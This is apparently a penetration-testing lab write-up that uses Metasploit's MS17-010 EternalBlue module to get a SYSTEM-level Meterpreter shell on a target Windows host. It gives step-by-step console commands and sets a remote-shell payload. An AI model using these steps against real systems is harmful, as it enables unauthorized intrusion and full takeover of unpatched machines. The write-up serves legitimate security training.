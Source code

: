 # Use Metasploit To Exploit MS17-010
The EternalBlue exploit targets a vulnerability in the Server Message Block (SMB) protocol, which was patched with the MS17-010 update. However, many systems remain unpatched, leaving them susceptible to this attack. The exploit can be delivered via phishing emails or malicious websites. Penetration testers can use Metasploit to identify hosts vulnerable to the EternalBlue exploit by scanning for the MS17-010 flaw. Once a vulnerable system is found, the tester can deploy and execute a malicious payload on the target using Metasploit.

## Tasks
- Execute the appropriate MS17-010 exploit from Metasploit against the target machine to exploit the vulnerability
- Use the "getuid" command within the Meterpreter session
- After successful exploitation, verify that you have gained a Meterpreter session
- Demonstrate you are running as "NT AUTHORITY\SYSTEM" when executing "getuid" within the Meterpreter session

## Practical Approach
1. Launch Metasploit in Kali Linux with the command `msfconsole`
2. Run the command `search ms17-010`
3. Choose a module. For automatic modules, simply enter `use 0`. Note that since no payload was configured, it defaults to `windows/x64/meterpreter/reverse_tcp`
4. Enter `show payloads`, and choose a payload number 26 `payload/windows/x64/meterpreter/bind_tcp_rc4` using `set payload 26`
5. To set the target's IP address, enter `show options` and `set RHOSTS <target_IP_address>`
6. Ensure the local machine's IP address is correct, otherwise set it using the `set LHOSTS <local_ip_address>` command
7. (Optional) Enter `set GroomAllocations 10` and `set GroomDelta 5` for controlling how memory is arranged on the target computer during an exploit. GroomAllocations decides how many memory spaces the exploit creates to prepare the computer's memory, while GroomDelta fine-tunes the size of the memory spaces

Screenshot of Metasploit successfully exploiting MS17-010 vulnerability with an active Meterpreter session shown below: <br/>
![image](https://github.com/user-attachments/assets/6c8cfafb-7834-4b86-8c90-dbfe87114ffe)
